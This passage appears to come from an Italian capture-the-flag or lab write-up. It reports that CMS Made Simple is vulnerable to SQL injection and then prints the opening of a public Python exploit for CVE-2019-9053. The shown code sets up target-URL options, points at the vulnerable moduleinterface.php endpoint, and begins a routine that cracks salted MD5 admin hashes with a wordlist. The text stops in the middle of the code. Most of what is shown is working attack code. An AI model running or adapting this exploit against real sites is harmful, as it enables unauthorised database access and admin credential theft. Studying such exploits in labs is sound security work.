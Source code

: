 Facendo una ricerca su internet troviamo che CMS Made Simple è vulnerabile a SQL
Injection. Vediamo il codice dell'exploit:
```python
#!/usr/bin/env python
# Exploit Title: Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9
# Date: 30-03-2019
# Exploit Author: Daniele Scanu @ Certimeter Group
# Vendor Homepage: https://www.cmsmadesimple.org/
# Software Link: https://www.cmsmadesimple.org/downloads/cmsms/
# Version: <= 2.2.9
# Tested on: Ubuntu 18.04 LTS
# CVE : CVE-2019-9053

import requests
from termcolor import colored
import time
from termcolor import cprint
import optparse
import hashlib

parser = optparse.OptionParser()
parser.add_option('-u', '--url', action="store", dest="url", help="Base target uri (ex. http://10.10.10.100/cms)")
parser.add_option('-w', '--wordlist', action="store", dest="wordlist", help="Wordlist for crack admin password")
parser.add_option('-c', '--crack', action="store_true", dest="cracking", help="Crack password with wordlist", default=False)

options, args = parser.parse_args()
if not options.url:
    print "[+] Specify an url target"
    print "[+] Example usage (no cracking password): exploit.py -u http://target-uri"
    print "[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist"
    print "[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based."
    exit()

url_vuln = options.url + '/moduleinterface.php?mact=News,m1_,default,0'
session = requests.Session()
dictionary = '1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM@._-$'
flag = True
password = ""
temp_password = ""
TIME = 1
db_name = ""
output = ""
email = ""

salt = ''
wordlist = ""
if options.wordlist:
    wordlist += options.wordlist

def crack_password():
    global password
    global output
    global wordlist
    global salt
    dict = open(wordlist)
    for line in dict.readlines():
        line = line.replace("\n", "")
        beautify_print_try(line)
        if hashlib.md5(str(salt) + line).hexdigest() == password:
```